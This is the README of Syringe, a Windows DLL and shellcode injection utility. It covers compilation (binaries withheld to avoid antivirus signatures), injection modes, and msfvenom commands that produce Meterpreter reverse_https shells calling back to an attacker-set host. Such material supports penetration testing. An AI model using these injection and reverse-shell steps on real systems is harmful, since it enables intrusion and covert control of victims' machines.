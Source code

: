 # Syringe

Syringe is a general purpose DLL and code injection utility for 32 and 64-bit
Windows. It is capable of executing raw shellcode as well as injecting
shellcode or a DLL directly into running processes.

## Compilation

Syringe is distributed in source code form only.  Compiled binary files are not available.  This was a conscious decision in order to prevent AV signatures from being developed.  As such, users will have to compile Syringe locally.  Syringe is meant to be compiled in Visual Studio 2013, other versions of VS, and other IDEs are not supported.  Syringe can be compiled by loading the provided project file (syringe.sln) with VS, specifying the desired architecture, and building.

## Linux Compile

Requirements: `make mingw64-gcc`
Run `make build_linux`

## Usage

Syringe supports three options for injection (specified with "-1", "-2", or "-3").  The following examples assume the x86 version.

* DLL injection.
  * Using the "-1" option, Syringe can inject an arbitrary DLL into a process specified by a process ID.
  * Usage: `syringe.x86.exe -1 <DLL file> <PID>`
* Shellcode Injection
  * Using the "-2" option, Syringe can inject specifically formatted shellcode into a specified process.
  * Usage: `syringe.x86.exe -2 <shellcode> <PID>`
* Shellcode Injection Alternative
  * Using the "-3" option, Syringe can inject specifically formatted shellcode into itself (no PID necessary).
  * Usage: `syringe.x86.exe -3 <shellcode>`

For information on how to format shellcode for use with Syringe, see the following section.

## Formatting Shellcode

Syringe requires shellcode to be supplied in a base64 encoded format.  The following commands can be used on most \*nix systems (with [Metasploit](https://github.com/rapid7/metasploit-framework) installed) to generate the shellcode appropriately.  **Be sure to change the "LHOST", "LPORT" and "-p" options accordingly.**

* x86 shellcode
  * `sudo msfvenom -p windows/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`
* x64 shellcode
  * `sudo msfvenom -p windows/x64/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`

### License
Syringe is released under the BSD 3-clause license, for more details see the
[LICENSE](https://github.com/securestate/syringe/blob/master/LICENSE) file.
